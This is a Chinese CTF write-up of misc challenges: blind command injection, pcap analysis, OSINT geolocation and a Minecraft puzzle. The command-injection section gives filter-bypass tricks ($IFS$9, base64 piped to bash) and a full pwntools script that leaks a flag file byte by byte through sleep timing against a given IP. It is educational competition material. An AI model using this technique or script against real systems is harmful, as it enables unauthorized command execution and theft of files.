








# <font style="color:#601BDE;">M</font><font style="color:#AE146E;">isc</font>
## <font style="color:#5C8D07;">关注公众号咋不算 CTF</font>




进入微信官网下载微信。


登录微信。




## <font style="color:#5C8D07;">我有权保持沉默</font>
IDA 逆向一下，其实 popen 已经实现任意命令执行了，只是关闭了所有的输出，没有回显。

这不就是无回显 RCE 吗？

这里可以通过 sleep 进行盲注，对每一个字节的内容进行爆破，通过响应的时间不同来得到正确答案。

空格可以用 `$IFS$9` 绕过，命令可以 base64 编码，然后用 echo 命令绕过一些特殊字符。

即 `echo base64编码后的命令 | base -d | bash`

如何获取 flag 中每个字符的内容呢？我们可以用 head 取出一部分，然后在取出的部分的基础上 tail 取最后一个字符，这样我们就可以取到我们指定位置上的字符了。

即 `head -c n /flag | tail -c 1`

我们判断当前字符是否符合条件，执行的命令就是：

`[$(head -c n /flag | tail -c 1)=爆破的字符] && sleep 1`

写一个脚本用 pwntools 交互即可。

```python
from pwn import *
import base64
import string
#context.log_level = 'debug'
box = string.ascii_letters + string.digits
print(box)
p = remote("223.129.86.2",34079)
p.recv()
flag = ""
part1 = "echo$IFS$9"
part3 = "$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9bash"
p.recv()
for i in range(1,200):
    for c in string.printable:
        print(flag)
        part2 = "[ \"$(head -c " + str(i)  + " /flag | tail -c 1)\" = \"" + c + "\" ] && sleep 1"
        print(part2)
        payload = (part1+base64.b64encode(part2.encode()).decode()+part3)
        #print(payload)
        time1 = time.time()
        p.sendline(payload.encode())
        p.recvuntil(b': ')
        time2 = time.time()
        #print(time2-time1)
        if(time2-time1>0.9):
            flag+=c
            break
    print(flag)


```



## <font style="color:#5C8D07;">CTF一把梭？</font>
抱歉，一把梭不了。

拿到一个超大流量包，还有一个带密码的压缩包，密码应该是流量包里面的东西。

过滤 http 流，直接搜 pass 分组字节流。





拿到密码。

解开压缩包就是 flag。

## <font style="color:#5C8D07;">SCU-OSINT</font>
容错很大，城市对了基本上就差不多了，百度识图能出大部分，不能出就谷歌识图。

p4，p7 里面有关键字，直接搜索。

p10 的图片在 t1d 空间里面，应该是在上海，随便点一个位置就对了。

```plain
[1][✅]4.473459,51.924184
[2][]
[3][]
[4][✅]114.264492,30.537959
[5][✅]-122.425496,37.785283
[6][✅]117.285432,31.870445
[7][✅]104.092491,30.650736
[8][✅]116.391348,40.004538
[9][✅]120.43611,36.095561
[10][✅]121.462492,31.255899


```


## <font style="color:#5C8D07;">无穷的尽头</font>
挺有意思的 mc 题，做题记录在下面的文档中。

```plain
失败的man好像去了72号维度

有序-有序-无序-有序-无序-有序-无序-有序-有序-有序-有序-无序-有序-无序-有序-无序-有序-无序-无序-无序-无序-有序-无序-有序-有序-有序-有序-有序-无序-有序-有序-无序-有序-有序-无序-无序-有序-无序-有序-有序-无序-有序-无序-有序-有序-无序-无序-有序-无序-有序-无序-有序-有序-无序-无序-有序-有序-有序-无序-有序-有序-无序-无序-无序-有序-无序-有序-无序-有序-有序-有序-无序-无序-无序-有序-有序-无序-无序-有序-有序-无序-有序-无序-有序-无序-无序-无序-有序-无序-无序-有序-无序-有序-有序-有序-无序-无序-无序-无序-无序

你相信命运吗？被命运选中的人，是我啊

二即均衡，三即新生，数质数吧，质数是谁也无法分割的数字

为了人类的幸福，所要克服的，便是命运啊，人是必须要上天堂的，我所追求的是，指引所有人到达那个全新的世界，感觉到了，位置来了，理解命运吧，时间要加速了：

『螺旋楼梯』，『独角仙』，『无花果塔』，『德蕾莎之道』，『特异点』，『天使』，『绣球花』，『秘密皇帝』

话已至此，时间加速，达到全新的世界吧！

aHR0cHM6Ly9wYW4ueHVubGVpLmNvbS9zL1ZPQnNLWldkc1VuZmdGN05acEV3Y0ZaY0ExP3B3ZD1ja2I4

其实他在69号维度

Exploit:
1. /fill ~ ~ ~ -50 210 90 minecraft:air

34-45-55-66-67-68-69

Wd5p2 34
AeSy8 45
iUq0c 55
Myqvm 66
MkdJK 67
qkoy7 68
sYyyw 69

scuctf{Wd5p2-AeSy8-iUqOc-Myqvm-MkdJK-qkoy7-sYyyw}


```

解题的关键是不要忽略地图中的细节，在第一张地图中拿到所有东西就可以去第二张图了。

第一张图会有一些恶心人的地方，可以用指令去绕过。

地图里面有死循环设置为冒险模式，我们可以用 fill 指令去填充方块，填充 air 就相当于删掉了方块。

第一张图还有一个不好打的怪，直接给自己开个抗性提升，然后 tp 出去，发现指令中心就在附近。



fill 把死循环的命令方块全部删掉。

然后就能开创造了。



第一张图还能拿到一个类似路径的东西，我们知道起点、终点、联通情况，我们就能直接跑 BFS，把路径跑出来，在第二张图按照顺序走就行了。

```plain
34-45-55-66-67-68-69


```

第二张图也可以用类似地图一中的指令，然后就能开创造了，也可以开旁观者模式，找到核心值就行。

## <font style="color:#5C8D07;">问卷</font>
填完即可得到 flag。

